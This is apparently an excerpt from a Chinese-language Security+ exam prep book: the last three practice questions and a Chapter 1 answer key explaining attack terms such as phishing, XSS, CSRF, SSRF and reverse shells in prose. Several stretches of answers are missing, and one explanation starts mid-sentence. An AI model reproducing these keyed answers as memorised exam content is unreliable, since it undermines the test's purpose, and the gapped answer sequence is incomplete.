**125.** Angela 离开上一个组织后，发现她仍然可以访问其共享驱动器并能够登录其电子邮件账户。离开时可能遗忘了什么关键流程？

- **A.** 离职面谈

- **B.** 工作轮换

- **C.** 离职交接

- **D.** 治理

**126.** Frank 知道企业可以使用任何分类标签，但他也知道有许多常用的标签。以下哪一项不是企业常用的数据分类标签？

- **A.** 公开

- **B.** 敏感

- **C.** 私有

- **D.** 秘密

**127.** 隐私声明经常出现在何处？

- A. 客户协议的条款

- B. 点击式许可协议

- C. 网站使用协议

- D. 以上所有

## 附录

### 答案和解释


### 第1章：威胁、攻击和漏洞

- 1. **C.** 正确答案是 `spear phishing`（精准钓鱼）。`Spear phishing` 针对特定群体，在本例中为保险专业人士。虽然这是一种钓鱼形式，但更具体的答案是在此类问题上需要选择的答案。`Phishing` 使用社会工程技术来成功，但再次是一个比 `spear phishing` 更广泛的答案，因此不是正确答案。最后，`Trojan horse` 假装成合法或期望的程序或文件，而本场景并未描述这一点。

- 2. **B.** 逻辑炸弹是一种在满足某些条件时执行其恶意活动的恶意软件。蠕虫是一种自我传播的恶意软件。木马是一种附加到合法程序上的恶意软件，而 `rootkit` 是一种获取 `root` 或管理员权限的恶意软件。

- 3. **C.** 这是一种非常基础的 SQL 注入形式。跨站脚本攻击会在文本字段中包含 `JavaScript`，并旨在影响用户会话中的其他站点。跨站请求伪造不会涉及在网页中输入任何文本，而 `ARP` 欺骗是更改交换机中的 `ARP` 表；它与网站黑客攻击无关。

- 4. **B.** 这描述了一种干扰攻击，其中合法流量被另一个信号干扰。干扰可能是有意的或无意的，并且可能是间歇性的。`IV` 攻击是对流密码的晦涩的密码攻击。Wi-Fi 保护设置（`WPS`）使用 `PIN` 连接到无线接入点（`WAP`）。`WPS` 攻击试图在传输中拦截该 `PIN`，连接到 `WAP`，然后窃取 `WPA2` 密码。僵尸网络是一组机器在未经其同意的情况下被用作攻击的一部分。

- 5. **B.** 列出的最佳防御提及攻击的选项是输入验证。加密网络流量对这两种攻击没有任何影响。Web 应用防火墙（`WAF`）可能会缓解这些攻击，但它将是次于输入验证的，而入侵检测系统（`IDS`）只会检测攻击——它不会阻止它。

- 6. **C.** 如果用户一直在连接但 `AP` 未显示他们正在连接，那么他们已连接到一个 `rogue` 接入点。这可能是架构和设计弱点的成因，例如网络缺乏分段和对连接到网络的设备的控制。会话劫持涉及接管已通过身份验证的会话。大多数会话劫持攻击涉及冒充。攻击者试图通过冒充该用户来获得对另一用户会话的访问。点击劫持涉及导致网站访客点击错误项目。最后，蓝牙劫持是一种蓝牙攻击。

- 7. **C.** 跨站脚本攻击涉及将脚本输入到其他用户将查看的文本区域。SQL 注入不是关于输入脚本，而是 SQL 命令。点击劫持是关于诱使用户点击错误的东西。蓝牙劫持是一种蓝牙攻击。

- 8. **D.** 保留实际密码不是最佳实践，因此加密密码明文不是使密码更难破解的常见技术。由于应用程序需要密码密钥来读取密码，任何有权访问该密钥的人都可以解密密码。使用盐、胡椒和专为密码设计的密码哈希算法都是防止离线暴力破解的常见最佳实践。

管理（`SIEM`）并不能专门帮助这一需求。情感分析和用户行为分析都针对用户和群体，而不是数据如何被收集和管理。

- 16. **B.** 白队在网络安全演练中充当裁判和观察员。蓝队充当防御者，红队充当攻击者，而紫队由蓝队和红队成员组成，以结合攻击和防御知识来改善组织安全。

- 17. **A.** 确保 `API` 仅被合法用户使用的最简单方法是要求使用身份验证。`API` 密钥是其中最常用的方法之一。如果 `API` 密钥丢失或被盗，密钥可以被作废并重新发放，并且由于 `API` 密钥可以与使用情况匹配，`Cynthia` 的公司也可以根据使用模式向客户收费（如果他们愿意）。防火墙或 `IP` 限制可能有所帮助，但它们可能很脆弱；客户 `IP` 地址可能会更改。入侵防御系统（`IPS`）可以检测和防止攻击，但使用 `IPS` 时很难区分合法使用和非客户使用。

- 18. **B.** 缓冲区溢出攻击将比字段或缓冲区可接受的更多数据塞入其中，溢出到其他内存位置，要么导致系统或应用程序崩溃，要么可能允许代码插入到可执行位置。蓝牙窃取和蓝牙劫持都是蓝牙攻击。跨站脚本攻击允许攻击者将脚本注入其他用户查看的页面。

- 19. **A.** 攻击者正试图通过稀缺性和紧迫性的结合来影响 `Gurvinder`。因此，对于这个问题，你应该回答稀缺性，因为紧迫性未列出。在许多社会工程原则问题中，可能有多个原则同时发挥作用，你需要用对该问题正确或更正确的原则来回答。在本例中，没有恐吓或权威声明，而共识需要某种形式的他人验证。

- 20. **A.** 漏洞扫描使用自动化工具查找系统和应用程序中的已知漏洞，然后提供报告以协助修复活动。渗透测试旨在实际利用漏洞并入侵系统。安全审计通常侧重于检查策略、事件报告和其他文档。安全测试是任何类型测试的通用术语。

- 21. **C.** 用户名复杂度对凭证收割没有影响。多因素身份验证可以通过确保即使捕获用户名和密码也不足以损害账户来帮助防止成功的凭证收割。意识培训有助于降低凭证泄露的可能性，而限制或阻止使用第三方网页脚本可使网站不太可能通过使用这些脚本、插件或模块而导致凭证被窃。

- 22. **C.** 如果 `Greg` 能在网络上识别出一个合法的媒体访问控制（`MAC`）地址，他就可以克隆它。这可能像检查某些设备上的 `MAC` 标签一样简单，或者如果他能够物理访问网络，则通过捕获网络流量来实现。

- 23. **A.** 从描述来看，他们似乎没有连接到真正的 Web 服务器，而是连接到一个假服务器。这表明是拼写错误抢注：拥有一个与真实站点非常相似命名的 `URL`，这样当用户误输入真实站点的 `URL` 时，他们将被引导到假站点。

选项 `B`、`C` 和 `D` 均不正确。这些都是攻击网站的方法，但在本例中，真正的网站并未受到攻击，而是一些用户正在访问一个虚假网站。

24. `C`。域名劫持（或称域名窃取）是指未经原注册人许可而更改域名注册信息或其他信息的情况。这可能是因为账户被攻破，或域名注册商的安全遭到破坏所致。一个常见问题是过期的域名被第三方购买，这看起来像域名被劫持，但如果域名未被续费，这其实是合法事件！`DNS` 劫持会将虚假信息插入 `DNS` 服务器；路径上（中间人）攻击通过让流量经过一个被攻破的中间点来捕获或篡改流量；零日攻击则是利用尚未公开、直到使用时才被知晓的漏洞进行攻击。

25. `D`。描述低技能黑客的术语是脚本小子。脚本小子通常使用预构建的工具，不具备制作或修改自己工具的专业能力。没有任何迹象表明这是出于意识形态原因，因此不涉及黑客行动主义者。虽然“业余爱好者”可能是一个恰当的描述，但正确的术语是脚本小子。最后，此场景中没有任何迹象表明存在内部威胁。

26. `B`。网络钓鱼旨在获取数据，最常见的是凭据或其他对攻击者有用的信息。垃圾邮件是对不需要的电子邮件的更宽泛称呼，尽管该术语通常泛指不需要的通信。鱼叉式网络钓鱼针对特定个人，而捕鲸式网络钓鱼则针对组织中的重要人物。短信钓鱼通过短信发送。恶意软件可以通过以上任何方式发送，但并没有一个特定的相关术语表示“包含恶意软件的垃圾邮件”。

27. `B`。一组被攻破后被集中控制以执行拒绝服务攻击、数据收集及其他恶意活动的计算机集合称为僵尸网络。`Zombienets`、`Nullnets` 和 `Attacknets` 并不是描述僵尸网络的常用术语。

28. `B`。不再有供应商支持的系统与软件可能构成重大安全风险，而确保供应商能够持续存在并提供支持是许多采购流程中的重要部分。`Saira` 的这些问题旨在评估该公司的长期生存能力和可行性，以及从他们那里购买是否能使其组织长期拥有可用产品。

29. `B`。被动侦察是指在没有实际连接目标的情况下进行的任何侦察。在此场景中，`John` 正通过利用公开可用的第三方信息来源来收集有关其目标的信息，这是一种开源情报（`OSINT`）形式。主动侦察涉及与目标网络进行通信，例如执行端口扫描。初始利用并不是信息收集，而是实际入侵目标网络。横向移动是指你已攻破一个系统，并利用该系统转向另一个系统。

30. `A`。服务端请求伪造（`SSRF`）攻击通常会试图让 `HTTP` 数据被转发，并且不会包含 SQL 注入。阻止敏感主机名、`IP` 地址和 `URL` 都是防止 `SSRF` 的有效方法，使用基于白名单的输入过滤器也是如此。

31. `A`。域名系统（`DNS`）投毒攻击试图在受信任的 `DNS` 服务器中插入错误或恶意的条目。地址解析协议（`ARP`）投毒涉及篡改交换机中的 `MAC-IP` 表。虽然跨站脚本（`XSS`）和跨站请求伪造（`CSRF` 或 `XSRF`）都是攻击类型，但二者都不是投毒攻击。

32. `C`。未知环境测试也称为黑盒测试或零知识测试，因为它不提供除识别目标所需基本信息之外的任何信息。已知环境（即白盒测试）则会向测试人员提供非常完整的信息。此场景可能是从网络外部进行的，但外部测试并不是正确的术语。威胁测试不是渗透测试中使用的术语。

33. `D`。横向移动是指你利用一台机器作为基础来攻击其他系统。横向移动可以在内部或外部测试中进行。白盒和黑盒测试描述的是测试人员事先获得的信息量，而不是测试人员执行测试的方式。

34. `A`。垫片攻击是指攻击者将某些恶意软件放置在应用程序与其他文件之间，并拦截对该文件（通常是库或系统 `API`）的通信。在许多情况下，这是通过硬件组件的驱动程序完成的。特洛伊木马可能被用来将垫片植入系统，但此场景中并未描述这一点。后门是绕过系统授权并直接访问系统的方法。重构是更改程序中变量、函数等名称的过程。

35. `C`。`SOAR` 是 `Gartner` 定义的一个相对较新的类别。安全编排、自动化与响应包括威胁与漏洞管理、安全事件响应以及安全运营自动化，但不包括恶意软件自动分析。

36. `C`。域名信誉服务，如 `Reputation Authority`、`Cisco` 的 `Talos`、`McAfee` 的 `trustedsource.org` 以及 `Barracuda` 的 `barracudacentral.org`，都提供域名信誉数据，允许你查询域名或 `IP` 地址，以确定其当前是否被列入黑名单或信誉不佳。

37. `B`。他的机器是分布式拒绝服务（`DDoS`）攻击的一部分。此场景描述的是通用的 `DDoS` 攻击，而非特定类型（如 `SYN` 洪水），后者会涉及在不完成三次 `TCP` 握手的情况下发送大量 `SYN` 数据包。这些机器可能是僵尸网络的一部分，也可能只是有一个触发器，使它们在特定时间发动攻击。此场景中的真正关键是 `DDoS` 攻击。最后，后门为攻击者提供了对目标系统的访问权限。

38. `B`。由于开放的 `Wi-Fi` 热点无法证明其合法性，因此很容易被伪造。攻击者可以搭建一个假热点，然后通过将自己插入受害者试图连接安全服务器的会话中，实施 `SSL` 剥离攻击。

39. `B`。特洛伊木马将恶意程序附加到合法程序上。当用户下载并安装合法程序时，他们也就获得了恶意软件。逻辑炸弹是当满足某些条件时执行恶行的恶意软件。`rootkit` 是获得管理员或根访问权限的恶意软件。宏病毒是作为宏嵌入文档中的病毒。

49. `D`。射频识别（`RFID`）攻击通常侧重于数据捕获、伪造 `RFID` 数据或进行拒绝服务攻击。生日攻击用于攻击密码系统，这可能是 `RFID` 标签环境的一部分，但它们不是针对 `RFID` 系统的常见攻击。

50. `C`。初始化向量用于流密码。`IV` 攻击试图利用缺陷，借助 `IV` 来暴露加密数据。此场景中没有任何内容要求或描述流氓接入点/邪恶孪生。Wi-Fi 保护设置（`WPS`）使用 `PIN` 码连接到无线接入点（`WAP`）。`WPS` 攻击试图拦截传输中的 `PIN` 码，连接到 `WAP`，然后窃取 `WPA2` 密码。

51. `C`。该描述不包括任何可用性风险，因为没有关于系统或服务宕机或离线的情况。此场景很可能会对 `Scott` 的公司造成声誉、财务和数据损失方面的影响。

52. `B`。跨站请求伪造（`XSRF` 或 `CSRF`）会向网站发送伪造请求，这些请求声称来自受信任的已认证用户。跨站脚本（`XSS`）利用用户对网站的信任，并将脚本嵌入该网站。蓝劫是一种蓝牙攻击。此场景中没有任何内容要求或描述邪恶孪生，后者是一种使用复制合法 `AP` 的恶意接入点进行的攻击。

53. `A`。网络安全融合是不同机构与组织之间收集、分析并分发信息的过程。像美国国土安全部（`DHS`）运营的融合中心，专注于加强共享情报活动。它们并非专门负责通过组合其他工具来构建工具，尽管在某些情况下可能会这样做。它们不是发电厂，它们的重点是收集和共享信息，而不是构建分类结构。

54. `B`。常见漏洞与暴露（`CVE`）列表中的条目描述并提供了公开已知网络安全漏洞的参考信息。`CVE` 源将提供关于新漏洞的更新信息，以及一个有用的索引编号，用于与其他服务进行交叉引用。

55. `B`。生日攻击利用概率论中的生日问题，依赖于在随机攻击尝试与解决方案的潜在排列数之间寻找碰撞。生日攻击是攻击密码散列函数的一种方法。它们不是社会工程攻击、网络拒绝服务攻击或 `TCP/IP` 协议攻击。

56. `B`。这是解除关联攻击的一个例子。解除认证数据包导致 `Juanita` 的系统解除关联，然后攻击者可以利用邪恶孪生攻击对其实施第二次攻击，目标是她的认证凭据或其他无线数据。错误配置不会导致已认证用户解除认证。会话劫持涉及接管已认证的会话。后门是绕过认证的内置方法。

57. `A`。字典攻击使用一份被认为可能是密码的单词列表。彩虹表是预先计算好的散列表。暴力破解会尝试所有可能的随机组合。如果攻击者拥有消息的原始明文和密文，他们就可以通过对密钥空间进行暴力破解来确定所使用的密钥空间。会话劫持是指攻击者接管已认证的会话。

58. `B`。降级攻击试图使传输层安全（`TLS`）连接使用较弱的密码版本，从而使攻击者更容易破解加密并读取受保护的数据。在解关联攻击中，攻击者试图迫使受害者与资源解关联。会话劫持是指攻击者接管已认证的会话。暴力破解会尝试每一种可能的随机组合来获取密码或加密密钥。

59. `D`。碰撞是指两个不同的输入产生相同的哈希值。彩虹表是预计算哈希值的表。暴力破解会尝试每一种可能的随机组合来获取密码或加密密钥。会话劫持是指攻击者接管已认证的会话。

60. `C`。高级持续性威胁（`APT`）涉及在一段时间内进行的复杂（即高级）攻击（即持续）。分布式拒绝服务（`DDoS`）可能是 `APT` 的一部分，但本身不太可能构成 `APT`。暴力破解会尝试每一种可能的随机组合来获取密码或加密密钥。在解关联攻击中，攻击者试图迫使受害者与资源解关联。

61. `B`。钓鱼通常不用于获取电子邮件地址。钓鱼邮件在大多数情况下针对的是个人信息和敏感信息，如密码和信用卡号码。

62. `A`。当入侵检测系统或防病毒软件将合法流量误认为是攻击时，这称为误报。漏报是指入侵检测系统将攻击误认为合法流量。它是误报的相反。选项 `C` 和 `D` 都是错误的。虽然这些在语法上可能是正确的，但这些不是行业中使用的术语。在军事行动中，假旗行动试图将责任转移到另一家公司，因此称为“假旗”。

63. `B`。键盘记录器是一种用于捕获击键的软件或硬件工具。键盘记录器通常被攻击者用来捕获凭据和其他敏感信息。`Rootkit` 用于在系统上获得并维持管理权限，而蠕虫是一种自我传播的恶意软件形式，经常针对网络上的易受攻击服务进行传播。

64. `A`。试图获得超出你所拥有的任何权限的术语是权限提升。会话劫持是接管已认证的会话。`Root grabbing` 和 `climbing` 不是行业中使用的术语。

65. `B`。`MAC` 泛洪攻击试图溢出交换机的 `CAM` 表，导致交换机将所有流量发送到所有端口，而不是发送到给定 `MAC` 地址关联的端口。虽然许多旧交换机可能存在此问题，但大多数现代交换机对此类攻击的易受攻击性较低，有些还内置了安全功能以防止此类攻击。

66. `B`。间谍软件和广告软件都是 `PUP`，即潜在不需要程序的常见示例。虽然并非直接恶意，但它们可能对用户隐私构成风险，并造成弹出窗口或其他不需要行为等困扰。特洛伊木马看起来像是合法程序或与其配对，`RAT` 提供远程访问并且是特洛伊木马的子类别，而勒索软件要求支付费用或其他操作以避免文件或声誉受损。

74. `B`。逻辑炸弹在满足特定条件或条件时执行恶意操作。引导扇区病毒感染硬盘的引导扇区。缓冲区溢出发生在攻击者尝试向变量中放入比其能容纳更多数据时。稀疏感染病毒间歇性地执行其恶意活动以使其更难被检测。

75. `B`。诱导，即通过对话获取信息以收集有用信息的过程，是渗透测试人员社会工程工具箱中的关键工具。伪装涉及使用令人信服的理由让目标配合社会工程试图做的事情。冒充涉及假装成你不是的人，而恐吓则试图吓唬或威胁目标使其按照社会工程师想要的方式行事。

76. `B`。这些协议都是不安全的。`FTP` 在某些用途中已被安全版本取代（`SFTP`/`FTPS`），而 `Telnet` 在现代应用中已被 `SSH` 取代。`RSH` 已过时，只应在真正古老的系统上看到。如果你发现系统或设备暴露了这些协议，你需要进一步深入调查以确定为何它们被暴露以及如果因合法原因必须保持开放，如何保护它们。

77. `B`。`Scott` 确定组织的无线网络可以从何处访问的最佳方式是使用战争驾驶、战争飞行和/或战争步行技术来绘制组织的无线信号覆盖范围。`OSINT` 和主动扫描对于收集有关组织及其系统的信息很有用，但对于其无线网络的范围和可访问性则无用，而社会工程更可能用于收集信息或获得设施或系统的访问权限。


### 78. A

宏病毒是嵌入到文件中的恶意脚本（宏），通常是 Microsoft Office 文件。它们通常用 Visual Basic for Applications（VBA）脚本编写。引导扇区病毒感染硬盘的引导扇区。特洛伊木马是与合法程序绑定的恶意软件。在此场景中，恶意软件实际上嵌入在 Office 文档中。两者相似，但不相同。远程访问特洛伊木马（RAT）是一种给予攻击者远程访问机器的特洛伊木马。

### 79. C

通过向测试人员提供登录凭据，你允许他们进行凭证扫描（即使用允许他们访问以检查设置和配置的账户或账户进行扫描）。已知环境和部分已知环境测试描述了测试人员对网络的了解程度。特权扫描不能是未知环境测试，但可以是已知或部分已知。入侵性扫描是指尝试利用或使用发现的漏洞而不是试图避免损害的扫描所使用的术语。

### 80. B

Security+ 考试期望从业人员能够分析脚本和代码以大致确定其执行的功能，并能够识别多种编程语言。Python 依赖于像缩进这样的格式来指示代码块，并且不使用你在某些语言中会找到的行结束指示符。此代码是一个基本的 Python 端口扫描器，将扫描 1 到 9999 的每个端口，检查是否允许连接。

### 81. C

僵尸网络通常用于发起 DDoS 攻击，攻击来自僵尸网络中的所有计算机同时进行。钓鱼攻击试图让用户泄露信息、点击链接或打开附件。广告软件由不需要的弹出广告组成。特洛伊木马将恶意软件附加到合法程序。

### 82. B

Amanda 发现了一个内部威胁。内部威胁可能难以发现，因为恶意的管理员或其他特权用户通常有能力掩盖其行为，甚至可能是负责搜寻此类威胁的人员！这不是零日漏洞——没有提到漏洞，也没有配置错误，因为这是故意行为，并且未提及或讨论加密。

### 83. B

社交媒体影响活动寻求实现攻击者或活动所有者的目标。它们利用社交媒体，使用机器人和发帖者群体来支持与活动目标一致的想法、概念或信仰。冒充是一种社会工程攻击类型，攻击者假装成他人。水坑攻击将恶意软件或恶意代码放置在目标群体经常访问的网站上。不对称战争是实力或能力差异显著的群体之间的战争。

### 84. C

使用默认设置是一种弱配置形式。许多漏洞扫描器和攻击工具内置了默认设置用于测试，并且大多数设备的默认设置可以通过快速的互联网搜索轻松获得。配置账户不是问题；更改默认密码和设置才是。虽然培训用户很重要，但在这种情况下这不是问题。修补系统很重要，但这不会改变默认设置。

### 85. D

在 DLL 注入中，恶意软件试图将代码注入某个库的进程中。这是一种相当高级的攻击。选项 A 不正确。逻辑炸弹在满足某些条件时执行其恶行。选项 B 不正确。会话劫持是接管已认证的会话。选项 C 不正确。缓冲区溢出是通过向变量发送比其能容纳更多的数据来完成的。

### 86. B

国家行为者（或国家级行为者）通常拥有更大的资源和技能，使其成为更重大的威胁，并且更可能与高级持续性威胁行为者相关联。脚本小子、黑客行动主义者和内部威胁往往能力较弱，并且都远不太可能与 APT 相关联。

### 87. C

入侵性扫描试图主动利用漏洞，因此可能导致运营中断。因此，如果使用，应在正常工作时间之外或在测试环境中进行。非入侵性扫描试图在不利用漏洞的情况下识别漏洞。渗透测试实际上试图通过利用漏洞来入侵网络。审计主要是一项文档检查。入侵性和非入侵性漏洞扫描都可有效发现漏洞。

### 88. C

后门是绕过正常安全并直接访问系统的手段。逻辑炸弹是当满足某些条件时执行其恶行的恶意软件。特洛伊木马将恶意程序包装到合法程序中。当用户下载并安装合法程序时，他们会获得恶意软件。Rootkit 是获得 root 或管理权限的恶意软件。

### 89. D

网站被篡改的方式与公司公众相关，表明攻击者很可能从事黑客行动主义以表达政治或基于信念的观点。脚本、国家行为者和有组织犯罪无法解释与公司政策相悖的声明，这就是为什么黑客行动主义是真正原因。

### 114. D

使用传递哈希攻击需要攻击者获取合法哈希，然后将其提交给服务器或服务。提供的是真实哈希，并非伪造。邪恶双子是一种无线攻击。垫片（shimming）是在应用程序和库之间插入恶意代码。

### 115. B

声称来自技术支持就是声称权威，且来电者给出的故事表明紧迫性。是的，该来电者使用了紧迫性（病毒传播），但并未试图恐吓。权威和信任密切相关，在本例中紧迫性是第二个主要因素。该来电者使用了紧迫性但未使用恐吓。

### 116. B

题目告诉我们这些是 Windows 10 系统，一个当前操作系统。由此可以安全地推测补丁过程出了问题或没有补丁过程。Elaine 应该调查这个过程是什么，以及是否有具体原因导致系统未打补丁。由于我们知道这些系统运行当前操作系统，可以排除选项 A（不支持的操作系统）。漏洞特别指出是 Windows 漏洞，排除选项 C，且未提及协议，也排除选项 D。

### 117. A

地址解析协议（ARP）中毒，通常称为 ARP 欺骗，发生在攻击者向局域网的默认网关发送恶意 ARP 数据包，导致其更改维护的硬件（MAC）地址与 IP 地址之间的映射时。在 DNS 中毒中，DNS 服务器中的域名到 IP 地址条目被更改。此攻击不涉及路径上攻击。后门为攻击者提供访问，绕过正常认证。

### 118. A

在已知环境（白盒）测试中，测试者获得目标网络的广泛知识。完全披露不是用于描述测试的术语。未知环境（黑盒）测试仅向测试者提供极少信息。红队测试模拟特定类型的攻击者，如国家行为者、内部人员或其他类型的攻击者。

### 119. C

社会工程学是利用人际交往技巧获取你本来无法访问的信息。非法复制软件不是社会工程学，收集废弃手册和打印输出也不是，那属于垃圾搜寻（dumpster diving）。钓鱼邮件使用了一些社会工程学，但那只是社会工程学的一个例子，而不是定义。

### 120. C

肩窥（shoulder surfing）是指在公共场所真的从某人背后偷看并收集信息，可能是登录密码。ARP 中毒改变交换机中的地址解析协议表。钓鱼（phishing）通常通过电子邮件尝试收集信息，或说服用户点击链接和/或下载附件。Smurf 攻击是一种历史性的拒绝服务攻击形式。

### 121. A

发票诈骗通常要么发送看似合法的发票以诱骗组织支付虚假发票，要么专注于诱骗员工登录虚假网站以获取凭据。它们通常不专注于交付恶意软件或窃取加密货币。

### 122. B

漏洞扫描使用自动化和半自动化过程来识别已知漏洞。审计通常涉及文档检查。未知和已知环境测试都是渗透测试的类型。

### 123. A

部分已知（灰盒）测试涉及向测试者提供有关网络的部分信息。已知环境（白盒）测试涉及向测试者提供目标网络的全部或几乎全部信息，而未知（黑盒）环境不提供目标环境的信息。掩蔽（Masked）不是测试术语。

### 124. D

在路径上（中间人）攻击中，攻击者位于客户端和服务器之间，对任何一端来说，攻击者看起来都像合法的另一端。这并不描述任何拒绝服务攻击。重放攻击涉及重新发送登录信息。虽然路径上攻击可用于执行窃听，但在这种情况下最佳答案是路径上攻击。

### 125. A

在浏览器中间人攻击中，恶意软件拦截浏览器对系统的调用，如系统库。路径上攻击涉及在通信两端之间放置某种进程以破坏密码或加密密钥。在缓冲区溢出攻击中，向变量放入的数据超过变量预期容纳的量。会话劫持涉及接管已认证的会话。

### 126. B

统一资源定位符（URL）重定向在 Web 应用程序中经常用于将用户引导到另一个服务或站点部分。如果此重定向未妥善保护，则可能被用于重定向到任意不可信或恶意站点。此问题称为开放重定向漏洞，仍然相当普遍。所示代码不包含 SQL 或 LDAP 代码，也未提及更改服务器上的 DNS 信息，因此其他选项不正确。

### 127. D

将较大的整数值放入较小的整数变量是整数溢出。内存溢出不是使用的术语，内存泄漏是关于分配内存而不释放内存。缓冲区溢出通常涉及数组。变量溢出不是行业中使用的术语。

### 128. B

跨站请求伪造（XSRF 或 CSRF）利用合法站点用于跟踪和服务访问者的 Cookie 和 URL 参数。在 XSRF 或 CSRF 攻击中，攻击者通过向用户提供 Cookie 或会话数据来利用已授权、已认证用户的权限，当用户访问目标站点时，这些数据将被读取和处理。攻击者可以在电子邮件或其他位置嵌入链接，该链接将被用户或已打开该用户会话的自动化进程点击或执行。这不是 SQL 注入（尝试向数据库发送命令）或 LDAP 注入（从目录服务器收集数据）。跨站脚本（XSS）会在用户可提交的数据字段中嵌入代码，网站会将其显示给其他用户，导致其运行。

### 129. D

你需要能够为 Security+ 考试阅读和理解多种语言的基本脚本和程序。在此示例中，您可以识别常见的 Bash 语法，并看到它正在向 root 的 authorized_keys 文件添加密钥。如果这不是预期脚本，您应该担心！

### 130. D

Rootkit 提供对系统的管理访问权限，因此 rootkit 中有“root”。特洛伊木马将恶意软件与合法程序结合。逻辑炸弹在满足某种条件时执行其恶意活动。多部分病毒感染引导扇区和文件。

### 131. C

内存泄漏可能导致崩溃，从而导致中断。这针对 CIA 三元组（机密性、完整性和可用性）的可用性，使其成为安全问题。内存泄漏实际上不会泄漏到其他位置，也不会允许代码注入。相反，内存泄漏会随着内存未正确回收而导致内存耗尽或其他问题。

### 132. B

这个问题结合了两部分知识：僵尸网络命令和控制如何工作，以及 IRC 的默认端口是 TCP 6667。尽管这可能是其他答案之一，但根据可用信息，最可能的答案是使用互联网中继聊天（IRC）作为其命令和控制通道的僵尸网络。

### 133. A

消费级无线路由器的软件更新通常以固件更新形式应用，Susan 应建议企业主定期升级其无线路由器固件。如果更新不可用，他们可能需要购买一台将继续接收更新的新路由器并适当配置它。这不是默认配置问题，也不是不安全的管理帐户——两者均未提及，也未提及加密。

### 134. B

射频识别（RFID）通常用于门禁徽章、库存系统，甚至用于使用植入芯片识别宠物。在渗透测试场景中，攻击者最有可能尝试获取或克隆基于 RFID 的门禁徽章以进入建筑物或办公室。

### 135. B

对于 Security+ 考试，你需要知道的通过 SMS 钓鱼的单词是“smishing”，这个术语结合了 SMS 和 phishing。蓝劫（Bluejacking）向蓝牙设备发送未经请求的消息，而 phonejacking 和 text whaling 是为本题编造的。

### 136. B

这是 vishing，即使用语音通话进行钓鱼。鱼叉式网络钓鱼（Spear phishing）针对小型特定群体。战争拨号（War dialing）是拨号希望计算机调制解调器应答。机器人呼叫（Robo-calling）用于拨打未经请求的电话营销电话。

### 137. A

蠕虫通过漏洞自行传播，使其成为蠕虫的示例。病毒是自我复制的软件。逻辑炸弹在满足某种条件时执行其恶意活动。特洛伊木马将恶意软件与合法程序结合。

### 138. B

垃圾搜寻是翻找垃圾以查找文档的过程。粉碎文件将有助于防止垃圾搜寻，但真正执着的垃圾搜寻者可以重新组装即使粉碎得很好的文档，导致一些组织在粉碎最敏感文档后将其焚烧。钓鱼通常通过电子邮件或电话进行，是试图诱取信息或说服用户点击链接或打开附件。肩窥实际上是偷看某人的肩膀。在路径上（中间人）攻击中，攻击者位于客户端和服务器之间，对任何一端来说，攻击者看起来都像合法的另一端。

### 139. B

系统在渗透测试开始时不应有 rootkit，测试期间安装的 rootkit 应完全移除并安全删除。其余选项都是渗透测试清理过程的典型部分。您可以在渗透测试标准网站 `www.pentest-standard.org/index.php/Post_Exploitation` 阅读更多信息。

### 140. C

这是在线暴力字典攻击的一个例子。字典攻击利用常见密码以及常见替换方式，试图闯入系统或服务。在少量错误密码尝试后锁定攻击者的退避算法，有助于减缓或阻止字典攻击和其他暴力密码攻击。彩虹表是预先计算好的哈希表。生日攻击是一种生成哈希碰撞的方法。最后，此场景中未涉及欺骗。

### 141. C

Jim 发现了一个侧录器，这是一种用于侧录攻击的设备，可以窃取信用卡和借记卡信息。侧录器可以无线上传所捕获的信息，也可能需要攻击者亲自取回数据。有些侧录器配有摄像头，以记录 PIN 码和其他数据的按键输入。重放攻击会重用凭证或其他信息来伪装成合法用户；当数据的使用时间和检查时间可以被利用时，就会发生竞争条件；而卡片克隆器则是在卡片被侧录后用来复制卡片的。

### 142. D

主动侦察通过端口扫描等技术连接网络。主动和被动侦察都可以手动或借助工具完成。黑盒和白盒指的是测试人员获得的信息量。攻击者和测试人员都会使用这两种侦察方式。

### 143. D

浏览器工具栏有时属于 PUP（潜在不需要的程序，如间谍软件或广告软件）的示例。蠕虫是一种恶意软件，通过利用联网系统上的漏洞自行传播。一旦感染一个系统，它通常会扫描其他易受攻击的系统并继续传播。RAT 是远程访问木马，rootkit 用于获取并保持管理员访问权限。

### 144. B

OSINT（开源情报）是从搜索引擎、网站、域名注册商等公开来源以及其他许多地方获取的情报信息。OPSEC（操作安全）指的是不披露不必要信息等习惯。STIX 是结构化威胁情报交换协议，而 IntCon 是为本题虚构的。

### 145. C

水坑攻击通过利用目标群体共同的行为（例如访问特定网站）来攻击该群体。如果攻击者能够入侵该网站或通过该网站发起定向攻击，他们就可以针对该群体。Watercooler、phishing net 和 phish pond 攻击都是本题虚构的。

### 146. C

尽管结构化查询语言（SQL）查询通常使用参数化，但轻量目录访问协议（LDAP）的安全实践反而侧重于用户输入验证和输出过滤，以确保查询不会返回过量数据。与所有服务一样，安全配置 LDAP 服务是应首先落实的保护措施之一。

### 147. B

虽然听起来可能有些夸张，但通过 Tor 或其他工具访问的、与互联网其他部分隔离的网站有时被称为“暗网”。Security+ 考试会使用这个术语，因此你需要了解它以便应考。其余选项都是虚构的，可能与将互联网一部分称为暗网一样荒谬。

### 157. C

美国可信代工计划旨在通过确保重要集成电路和电子产品的端到端供应链安全来防止供应链攻击。

### 158. B

威胁地图（如 `threatmap.fortiguard.com` 和 `threatmap.checkpoint.com` 上的地图）是供应商和其他组织收集的实时或近实时数据的可视化展示，有助于直观地了解主要威胁并辅助分析。饼图可以通过安全信息和事件管理（SIEM）或其他系统实时生成，但请注意，这里没有提到任何 SIEM 或其他设备。暗网追踪器是本题虚构的，而 OSINT 存储库不会显示这样的实时数据。

### 159. B

Bluesnarfing 涉及在蓝牙设备处于可发现范围内时访问其数据。Blue-jacking 则是在蓝牙设备在范围内时向其发送未经请求的消息。邪恶双子攻击使用恶意接入点，其名称与合法接入点相似或完全相同。RAT 是远程访问木马，而此场景中没有任何迹象表明 RAT 是数据被盗的原因。

### 160. B

渗透测试的交战规则通常包括测试的类型和范围、客户联系信息以及需要通知团队的时机要求、敏感数据处理要求，以及定期状态会议和报告的细节。

### 161. C

此命令每隔一小时启动一个连接到 `example.com` 端口 8989 的反向 shell。如果你不熟悉 cron，不妨花点时间阅读 cron 命令的基础知识以及它们的用途——你可以在 `manpages.ubuntu.com/manpages/focal/man8/cron.8.html` 阅读 cron 的手册页。

### 162. C

渗透测试人员利用了紧迫性原则，并自称是组织的高级成员，从而运用了一些权威元素。他们并未威胁或恐吓帮助台工作人员，也没有制造稀缺感，更没有试图与该工作人员建立信任。

### 163. A

